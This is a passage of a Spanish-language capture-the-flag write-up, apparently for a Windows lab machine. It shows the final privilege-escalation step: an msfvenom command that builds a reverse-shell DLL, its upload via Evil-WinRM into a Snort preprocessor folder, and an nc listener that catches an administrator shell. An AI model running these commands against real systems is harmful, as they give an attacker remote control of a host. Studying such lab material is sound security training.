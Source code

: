 Con msfvenom creamos nuestro modulo malicioso, solo tienes que cambiar el LHOST por tu IP y el LPORT por tu puerto en el que te pongas en escucha.

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.11 LPORT=888 -f dll -a x64 -o atr4x.dll
```
Luego solo es cuestion de subir el archivo.

```
*Evil-WinRM* PS C:\Snort\lib\snort_dynamicpreprocessor> upload atr4x.dll
```
Solo es cuestion de ponernos en escucha y esperar... Obtendremos la reverse shell.

```
rlwrap -cAr nc -nlvp 888
```

![administrateur](../../../../../assets/analysis/administrator1.png)

Solo tendremos que mirar en el desktop y obtendremos nuestra flag.

## FIN
